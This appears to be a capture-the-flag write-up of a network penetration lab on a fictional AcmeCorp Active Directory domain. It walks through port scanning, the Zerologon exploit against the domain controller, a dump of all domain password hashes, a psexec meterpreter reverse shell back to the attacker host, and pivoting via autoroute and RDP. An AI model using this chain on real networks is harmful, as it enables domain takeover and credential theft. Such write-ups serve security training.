

# RmluZCB0aGUgU2hhcmU= - Net Pen 500

>tchilders: Restarting .30 to install nfs tools
>kyle: AH
>kyle: WAIT
>kyle: you know what nvm
>kyle: feel free
>kyle: u felt free I see

## Challenge Description
During a weekly status meeting at Acme Corp, you hear a colleague mention a file share. You ask about the share during the call, but your boss tells you to stop asking and focus on your own work. You have not seen this file share before, and being the inquisitive investigator that you are, you start looking for clues. On the colleague's desk, you find a sticky note with the following IP addresses:

`192.168.9.10` 
`192.168.9.30`

Neither of these appear to be the file share, but you think they could be connected in some way. You decide to drop your current critical tasking in order to investigate.

## Initial Observations

We have access to two target boxes on the 192.168.9.0/24 subnet, `192.168.9.10` and `192.168.9.30`. We can run nmap against them to see what services we have available. 

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap 192.168.9.30 -Pn -sV -p- -vvv -T4                                                                                                                                                                 130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 03:26 EDT
NSE: Loaded 45 scripts for scanning.
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 0, OK: 0, NX: 0, DR: 0, SF: 0, TR: 0, CN: 0]
Initiating Connect Scan at 03:26
Scanning 192.168.9.30 [65535 ports]
Discovered open port 53/tcp on 192.168.9.30
Discovered open port 135/tcp on 192.168.9.30
Discovered open port 139/tcp on 192.168.9.30
Discovered open port 445/tcp on 192.168.9.30
Discovered open port 3268/tcp on 192.168.9.30
Discovered open port 49183/tcp on 192.168.9.30
Discovered open port 47001/tcp on 192.168.9.30
Discovered open port 88/tcp on 192.168.9.30
Discovered open port 55764/tcp on 192.168.9.30
Discovered open port 49167/tcp on 192.168.9.30
Connect Scan Timing: About 37.08% done; ETC: 03:27 (0:00:53 remaining)
Discovered open port 49152/tcp on 192.168.9.30
Discovered open port 3269/tcp on 192.168.9.30
Discovered open port 49166/tcp on 192.168.9.30
Discovered open port 5985/tcp on 192.168.9.30
Discovered open port 49171/tcp on 192.168.9.30
Discovered open port 49158/tcp on 192.168.9.30
Discovered open port 49157/tcp on 192.168.9.30
Discovered open port 49153/tcp on 192.168.9.30
Discovered open port 9389/tcp on 192.168.9.30
Discovered open port 49155/tcp on 192.168.9.30
Discovered open port 49154/tcp on 192.168.9.30
Discovered open port 636/tcp on 192.168.9.30
Discovered open port 389/tcp on 192.168.9.30
Discovered open port 593/tcp on 192.168.9.30
Discovered open port 464/tcp on 192.168.9.30
Completed Connect Scan at 03:27, 84.51s elapsed (65535 total ports)
Initiating Service scan at 03:27
Scanning 25 services on 192.168.9.30
Completed Service scan at 03:28, 58.57s elapsed (25 services on 1 host)
NSE: Script scanning 192.168.9.30.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 03:28
Completed NSE at 03:28, 0.10s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 03:28
Completed NSE at 03:28, 0.03s elapsed
Nmap scan report for 192.168.9.30
Host is up, received user-set (0.00032s latency).
Scanned at 2021-09-12 03:26:24 EDT for 143s
Not shown: 65510 closed ports
Reason: 65510 conn-refused
PORT      STATE SERVICE      REASON  VERSION
53/tcp    open  domain       syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2021-09-12 11:27:53Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: AcmeCorp.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: ACMECORP)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: AcmeCorp.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        syn-ack Microsoft Windows RPC
49166/tcp open  msrpc        syn-ack Microsoft Windows RPC
49167/tcp open  msrpc        syn-ack Microsoft Windows RPC
49171/tcp open  msrpc        syn-ack Microsoft Windows RPC
49183/tcp open  msrpc        syn-ack Microsoft Windows RPC
55764/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: ACMECORP-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.09 seconds
```
We can see that there are a lot of ports on `.30`, the challenge description specifically mentions a file share and the SMB ports (139, 445) are open on this machine. We can use nmap's smb scripts to get more information about the shares.
```
┌──(kali㉿kali)-[~]
└─$ nmap --script smb-enum-shares -p139,445 192.168.9.30                                                                                                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 03:55 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.9.30
Host is up (0.00031s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: <blank>
|   \\192.168.9.30\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\192.168.9.30\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\192.168.9.30\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: READ
|   \\192.168.9.30\NETLOGON: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: <none>
```
```
┌──(kali㉿kali)-[~]
└─$ nmap --script smb-enum-shares -p139,445 192.168.9.10 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 03:56 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.9.10
Host is up (0.0015s latency).

PORT    STATE    SERVICE
139/tcp filtered netbios-ssn
445/tcp open     microsoft-ds

Host script results:
| smb-enum-shares: 
|   note: ERROR: Enumerating shares failed, guessing at common ones (SMB: Failed to receive bytes: TIMEOUT)
|   account_used: <blank>
|   \\192.168.9.10\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\192.168.9.10\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\192.168.9.10\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: READ
```
snmp-check will also provide some information
```
[*] System information:

  Host IP address               : 192.168.9.30
  Hostname                      : AcmeCorp-DC1.AcmeCorp.local
  Description                   : Hardware: Intel64 Family 6 Model 79 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 9600 Multiprocessor Free)
  Contact                       : -
  Location                      : -
  Uptime snmp                   : 6 days, 02:08:19.93
  Uptime system                 : 6 days, 02:07:38.18
  System date                   : 2021-9-24 05:19:26.2
  Domain                        : ACMECORP

[*] User accounts:

  Guest
  jobss
  user1
  gatesb
  krbtgt
  xadmin
  turinga
  Administrator
  xadministrator
```

## Getting a Foothold
We have some potential usernames, and we have the name of the domain and DC server. We can use CVE-2020-1472 (Zerologon) https://nv2lt.github.io/windows/CVE-2020-1472-Step-by-Step-Procedure/ to reset the DC password. From there we can use the secretsdump script from Impacket to dump the domain hashes. 

```
python3 zerologon.py ACMECORP-DC1 192.168.9.30                                                                                                                   1 ⨯
Performing authentication attempts...
=========================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

```
secretsdump.py -just-dc -no-pass ACMECORP/ACMECORP-DC1\$@192.168.9.30
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ff8e6256937382452bed996d43a5002d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a1295a38927854fe8d676dd4eac8a130:::
AcmeCorp.local\user1:1107:aad3b435b51404eeaad3b435b51404ee:ff8e6256937382452bed996d43a5002d:::
AcmeCorp.local\xadmin:1604:aad3b435b51404eeaad3b435b51404ee:ff8e6256937382452bed996d43a5002d:::
AcmeCorp.local\gatesb:1607:aad3b435b51404eeaad3b435b51404ee:8758304b6af01bb8ce1691495d29cb61:::
AcmeCorp.local\jobss:1610:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
AcmeCorp.local\turinga:1611:aad3b435b51404eeaad3b435b51404ee:2b2ac2d1c7c8fda6cea80b5fad7563aa:::
AcmeCorp.local\xadministrator:1613:aad3b435b51404eeaad3b435b51404ee:ff8e6256937382452bed996d43a5002d:::
ACMECORP-DC1$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WKS2-WIN7$:1602:aad3b435b51404eeaad3b435b51404ee:ee3aa6016f958f044cf3a90e2e40bfc8:::
WKS1-WIN10$:1603:aad3b435b51404eeaad3b435b51404ee:be89db4f46fa198b20ce747c3a6eef10:::
WINSERVER1$:1605:aad3b435b51404eeaad3b435b51404ee:d623d473dcd45d3d31afa985d99abd11:::
WKS3-WIN7$:1612:aad3b435b51404eeaad3b435b51404ee:ac95d80565539402c23847a08c37cd6a:::
WIN-PK8J9JB45EB$:2602:aad3b435b51404eeaad3b435b51404ee:d0d481fbcd572a6d645d48cc03fbd575:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e81e0ede85f7949411ae63ca7999421db9bc2828ee46283dcea4fe11e1c06816
Administrator:aes128-cts-hmac-sha1-96:2b74f27e26b323d5017573c1a193a5f0
Administrator:des-cbc-md5:4002046870b9e620
krbtgt:aes256-cts-hmac-sha1-96:12f65824f6fccf80beecf47deee5a1aafc4305620b1db4645e0a083d5b095c32
krbtgt:aes128-cts-hmac-sha1-96:381589b14466212043f2ae2acb47d890
krbtgt:des-cbc-md5:3d587391cb9bd9bc
AcmeCorp.local\user1:aes256-cts-hmac-sha1-96:9c8c54d5581c5192bda9e4e661f0cba14257b2fd5c7b3198d35c8ba25109f289
AcmeCorp.local\user1:aes128-cts-hmac-sha1-96:7f1e4e5af4d9530189a7df75004bb626
AcmeCorp.local\user1:des-cbc-md5:26e0ab94dc769ee3
AcmeCorp.local\xadmin:aes256-cts-hmac-sha1-96:a55da0bf005adde4f8ee2c70d17e9c2f780b7c44848a0a32727ce9defb5c7b87
AcmeCorp.local\xadmin:aes128-cts-hmac-sha1-96:ea786eedb5a16c4fe03b07867d8802f4
AcmeCorp.local\xadmin:des-cbc-md5:167a9ee64a70fd76
AcmeCorp.local\gatesb:aes256-cts-hmac-sha1-96:4cbb373136c3fc16f173f2ded6433498f1a4a7688ae92121a44eb7c620c83424
AcmeCorp.local\gatesb:aes128-cts-hmac-sha1-96:5f5a07beb793bbb7ee87f8a603826a16
AcmeCorp.local\gatesb:des-cbc-md5:2fab166b19fe4a8a
AcmeCorp.local\jobss:aes256-cts-hmac-sha1-96:0c9e2eaebf4af297acf9370267845c14d1f423874fe7ef608b9602c64f899c67
AcmeCorp.local\jobss:aes128-cts-hmac-sha1-96:103c1fbe9217c54d10de0f588523dc74
AcmeCorp.local\jobss:des-cbc-md5:d6f885e06bd32592
AcmeCorp.local\turinga:aes256-cts-hmac-sha1-96:77e0fb6c635849e265b356e4dbbafc972243f1f85f4cf0bfa8fd30d84d4f2525
AcmeCorp.local\turinga:aes128-cts-hmac-sha1-96:6bf29897042322887a06deabc9c0c824
AcmeCorp.local\turinga:des-cbc-md5:c151c12cc75bb6f1
AcmeCorp.local\xadministrator:aes256-cts-hmac-sha1-96:d3cb238d7d8e850f5ec3aebe6b21627ab5d144a71d8846dbe212c70cba6ecf5c
AcmeCorp.local\xadministrator:aes128-cts-hmac-sha1-96:7355b47360b2293ffdf7000c40251a4a
AcmeCorp.local\xadministrator:des-cbc-md5:54dc08e3fedc450d
ACMECORP-DC1$:aes256-cts-hmac-sha1-96:8027357e1fdc93ba3261052d76602b2618f356476b0b7a2cd02c1fdf943b078e
ACMECORP-DC1$:aes128-cts-hmac-sha1-96:918a59098181b441f81eee362502f7f8
ACMECORP-DC1$:des-cbc-md5:3b803e451670fed5
WKS2-WIN7$:aes256-cts-hmac-sha1-96:f98a1de8ac5eeb24af4c480785928c1de11f1dc11b4ea893d40df71c317e6d9e
WKS2-WIN7$:aes128-cts-hmac-sha1-96:5dd65d86cf61cb85e1089631c6c1c31d
WKS2-WIN7$:des-cbc-md5:f751ae579d0d98c7
WKS1-WIN10$:aes256-cts-hmac-sha1-96:e97b69b2b816c196649ab765aa190afc75fea4b1f9d7d03d021536848a3937e7
WKS1-WIN10$:aes128-cts-hmac-sha1-96:4c59bc20e7d059b85c5c5f3b02a1421c
WKS1-WIN10$:des-cbc-md5:b0e5f19d0e1af79b
WINSERVER1$:aes256-cts-hmac-sha1-96:cca6a1fbd41a4a662cc12aca7376d21ec5dcec271679e62e114be96364b68e8f
WINSERVER1$:aes128-cts-hmac-sha1-96:b686cb9b53177789ee7f88232b18fd1d
WINSERVER1$:des-cbc-md5:f23ee375911c731a
WKS3-WIN7$:aes256-cts-hmac-sha1-96:9fb0c8c252ab59cc6b4456fba26cffa1aed99166239fc8a9ecb0e2a28fcf36f0
WKS3-WIN7$:aes128-cts-hmac-sha1-96:4d1f6435925d1737382a908a0a57d943
WKS3-WIN7$:des-cbc-md5:d50d9113373b6e62
WIN-PK8J9JB45EB$:aes256-cts-hmac-sha1-96:518f682664dd8472e0b875d532422a89c3abb521f23a02a5e37d90751ec63eec
WIN-PK8J9JB45EB$:aes128-cts-hmac-sha1-96:8c3595c9054bfb3b38e023f97ff4da51
WIN-PK8J9JB45EB$:des-cbc-md5:3e6e76e970e05e1c
[*] Cleaning up...
```
At this point we can log in as any user using Pass-the-Hash, including `xadministrator` who we can assume to be a domain admin. We can also use a tool like Hashcat to crack the hashes and recover the Admin password `#1Password1`.

We can use smbclient to talk to the SMB Server
```
smbclient -U Administrator //192.168.9.30/ADMIN$ -W AcmeCorp.local \#1Password1                                                                                130 ⨯
Try "help" to get a list of possible commands.
smb: \>
```

We can look around the DC's hard drive but we won't find anything useful. Once we're done we can use Metasploit's `exploit/windows/smb/psexec` module to get a shell. 

```
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                192.168.9.30     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             acmecorp         no        The Windows domain to use for authentication
   SMBPass               #1Password1      no        The password for the specified username
   SMBUser               Administrator    no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.9.103    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 192.168.9.103:4444
[*] 192.168.9.30:445 - Connecting to the server...
[*] 192.168.9.30:445 - Authenticating to 192.168.9.30:445|acmecorp as user 'Administrator'...
[*] 192.168.9.30:445 - Selecting PowerShell target
[*] 192.168.9.30:445 - Executing the payload...
[+] 192.168.9.30:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 192.168.9.30
[*] Meterpreter session 1 opened (192.168.9.103:4444 -> 192.168.9.30:49778) at 2021-09-24 22:51:55 -0400

meterpreter >> shell
Process 4656 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

## Pivot
Now we have a root shell on 9.30, from here we can see what other networks are open. 

```
ipconfig /all
ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : AcmeCorp-DC1
   Primary Dns Suffix  . . . . . . . : AcmeCorp.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : AcmeCorp.local

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection #2
   Physical Address. . . . . . . . . : 00-50-56-B8-0F-C7
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::641a:4b3:b892:e9a1%17(Preferred)
   IPv4 Address. . . . . . . . . . . : 172.16.9.30(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   DHCPv6 IAID . . . . . . . . . . . : 436210729
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-23-6A-A0-FA-52-54-00-59-46-4F
   DNS Servers . . . . . . . . . . . : fec0:0:0:ffff::1%1
                                       fec0:0:0:ffff::2%1
                                       fec0:0:0:ffff::3%1
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B8-A0-26
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::b540:26f5:46a1:4a7a%16(Preferred)
   IPv4 Address. . . . . . . . . . . : 192.168.9.30(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   DHCPv6 IAID . . . . . . . . . . . : 369101865
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-23-6A-A0-FA-52-54-00-59-46-4F
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
   ```
   Looks like there's a second NIC on the `172.16.9.0/24` network. We can check the ARP cache using meterpreter to see what machines are on that network. 

```
meterpreter > arp

ARP cache
=========

    IP address       MAC address        Interface
    ----------       -----------        ---------
    172.16.9.50      00:50:56:b8:47:6d  17
    172.16.9.255     ff:ff:ff:ff:ff:ff  17
    192.168.9.10     00:50:56:b8:3c:c0  16
    192.168.9.103    00:50:56:b8:b5:63  16
    192.168.9.255    ff:ff:ff:ff:ff:ff  16
```

Here we can see that there is a machine at `172.16.9.50`. Let's set up a SOCKS proxy through Meterpreter and then scan the host for open ports. 

```
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module.
[*] Running module against ACMECORP-DC1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.9.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.9.0/255.255.255.0 from host's routing table.
meterpreter > bg
[*] Backgrounding session 1...
msf6 auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  100              yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS       172.16.9.50      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   THREADS      1                yes       The number of concurrent threads (max one per host)
   TIMEOUT      100              yes       The socket connect timeout in milliseconds
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.9.50:          - 172.16.9.50:111 - TCP OPEN
[+] 172.16.9.50:          - 172.16.9.50:135 - TCP OPEN
[+] 172.16.9.50:          - 172.16.9.50:139 - TCP OPEN
[+] 172.16.9.50:          - 172.16.9.50:445 - TCP OPEN
[+] 172.16.9.50:          - 172.16.9.50:1039 - TCP OPEN
[+] 172.16.9.50:          - 172.16.9.50:1047 - TCP OPEN
[+] 172.16.9.50:          - 172.16.9.50:1048 - TCP OPEN
[+] 172.16.9.50:          - 172.16.9.50:2049 - TCP OPEN
[+] 172.16.9.50:          - 172.16.9.50:3389 - TCP OPEN
[+] 172.16.9.50:          - 172.16.9.50:8443 - TCP OPEN
[*] 172.16.9.50:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We can see that SMB is open on this machine, ports 111 and 2049 are also open which means there is an NFS share. Most importantly though, RDP (port 3389) is open. Using meterpreter we can enable RDP on the 9.30 machine, then we can pivot to the internal machine. 

```
meterpreter > run post/windows/manage/enable_rdp

[*] Enabling Remote Desktop
[*]     RDP is disabled; enabling it ...
[*] Setting Terminal Services service startup mode
[*]     Terminal Services service is already set to auto
[*]     Opening port in local firewall if necessary
```

Once we're on the internal machine, we can quickly look through the drive for the flag.



`RTXFLAG{youre_so_fired}`
